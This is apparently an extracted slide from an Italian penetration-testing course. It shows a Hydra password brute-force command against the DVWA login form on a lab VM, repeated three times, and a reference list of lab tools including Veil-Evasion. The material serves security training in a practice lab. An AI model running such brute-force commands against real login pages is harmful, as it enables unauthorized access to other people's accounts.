

hydra -L UserList.txt -P UserList.txt -V -e ns -u -F -t 64 -w 1 -W1 10.0.2.15 http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^&user_token=${CSRF}&Login=Login:S=Location\: index.php:H=Cookie: security=impossible; PHPSESSID=${SESSIONID}"
hydra -L UserList.txt -P UserList.txt -V -e ns -u -F -t 64 -w 1 -W1 10.0.2.15 http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^&user_token=${CSRF}&Login=Login:S=Location\: index.php:H=Cookie: security=impossible; PHPSESSID=${SESSIONID}"
hydra -L UserList.txt -P UserList.txt -V -e ns -u -F -t 64 -w 1 -W1 10.0.2.15 http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^&user_token=${CSRF}&Login=Login:S=Location\: index.php:H=Cookie: security=impossible; PHPSESSID=${SESSIONID}"
Riferimenti
Macchina Target: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

Macchina Kali: https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/

Macchina Win 10: https://developer.microsoft.com/it-it/windows/downloads/virtual-machines

WinRAR : https://www.winrar.it/

Veil: https://github.com/Veil-Framework/Veil-Evasion

JDK: https://www.oracle.com/technetwork/java/javase/downloads/index.html
JRE: https://javadl.oracle.com/webapps/download/AutoDL?BundleId[...]

XAMPP: https://www.apachefriends.org/it/index.html

Python: http://www.python.it/download

DVWA: http://www.dvwa.co.uk/

BVWA: https://sourceforge.net/projects/bwapp/files/latest/download